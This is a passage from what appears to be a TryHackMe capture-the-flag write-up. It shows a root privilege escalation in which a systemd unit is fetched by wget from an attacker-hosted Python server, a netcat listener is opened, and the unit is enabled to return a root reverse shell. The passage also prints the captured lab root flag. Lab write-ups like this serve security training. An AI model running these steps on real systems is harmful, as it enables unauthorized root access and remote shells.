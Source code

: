 2. make python server using python3 -m http.server

3. go to tmp folder in target machine



### use wget http://attack_ip:port/root.service

```js
$ wget http://10.11.139.85:3333/root.service
--2025-08-04 16:07:10--  http://10.11.139.85:3333/root.service
Connecting to 10.11.139.85:3333... connected.
HTTP request sent, awaiting response... 200 OK
Length: 163 [application/octet-stream]
Saving to: 'root.service'

     0K                                                       100% 47.0K=0.003s

2025-08-04 16:07:11 (47.0 KB/s) - 'root.service' saved [163/163]

$ 
```
Set up listner in port 9999 i chose port in root.service file

>**nc -nlvp 9999** 

in victim machine run

> systemctl enable /tmp/root.service

> systemctl start root

## Now we are root
```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.4 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ nc -nlvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.220.119 46164
bash: cannot set terminal process group (3010): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-220-119:/# 
Search for root flag
root@ip-10-10-220-119:/# cd root
cd root
root@ip-10-10-220-119:~# ls
ls
root.txt
snap
root@ip-10-10-220-119:~# cat root.txt
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style='border:none;'></iframe>
